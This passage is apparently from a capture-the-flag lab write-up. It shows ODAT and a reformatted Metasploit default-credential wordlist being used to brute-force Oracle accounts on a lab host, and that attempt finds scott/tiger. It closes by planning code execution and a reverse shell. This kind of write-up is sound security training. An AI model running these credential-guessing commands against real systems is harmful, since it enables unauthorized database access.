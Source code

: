     Testing the other wordlists with Odat doesn't give anything either.. lets try steal the one msf uses.
    Look at the formating of a random Odat wordlist, to make the msf alike.

    [root:/opt/odat]# head accounts/accounts_small.txt                                                                        (master-python3✱)
      anonymous/anonymous
      applsys/applsys
      apps/apps

    [root:/opt/odat]# head /usr/share/metasploit-framework/data/wordlists/oracle_default_userpass.txt                         (master-python3✱)
      brio_admin brio_admin
      brugernavn adgangskode
      brukernavn password

    So we need to change space to /, and run again with the new wordlist.
    [root:/opt/odat]# python3 odat.py passwordguesser -s 10.10.10.82 -p 1521 -d XE --accounts-file accounts/msf-list.txt      (master-python3✱)
      [1] (10.10.10.82:1521): Searching valid accounts on the 10.10.10.82 server, port 1521
      [!] Notice: 'ctxsys' account is locked, so skipping this username for password                                              | ETA:  00:05:13
      [!] Notice: 'hr' account is locked, so skipping this username for password                                                  | ETA:  00:04:49
      [!] Notice: 'mdsys' account is locked, so skipping this username for password                                               | ETA:  00:03:45
      [!] Notice: 'dbsnmp' account is locked, so skipping this username for password                                              | ETA:  00:03:04
      [!] Notice: 'dip' account is locked, so skipping this username for password                                                 | ETA:  00:02:57
      [!] Notice: 'system' account is locked, so skipping this username for password                                              | ETA:  00:02:06
      [!] Notice: 'xdb' account is locked, so skipping this username for password                                                 | ETA:  00:01:15
      [!] Notice: 'outln' account is locked, so skipping this username for password                                               | ETA:  00:00:59
      [!] Notice: 'scott' account is locked, so skipping this username for password                                               | ETA:  00:00:11
      100% |######################################################################################################################| Time: 00:04:52
      [-] No found a valid account on 10.10.10.82:1521/sid:XE. You should try with the option '--accounts-file accounts/accounts_multiple.txt' or '--accounts-files accounts/logins.txt accounts/pwds.txt'

    Reset the box and try again, BOOM!
    [root:/opt/odat]# python3 odat.py passwordguesser -s 10.10.10.82 -p 1521 -d XE --accounts-file accounts/msf-list.txt      (master-python3✱)
      [1] (10.10.10.82:1521): Searching valid accounts on the 10.10.10.82 server, port 1521
      --- snip ---
      [+] Accounts found on 10.10.10.82:1521/sid:XE:
        scott/tiger


4. We got credentials, scott/tiger, so lastly we exploit.
   Reading the documentation on HackTricks we can both Write files and Execude code, maybe we can get a reverse shell?
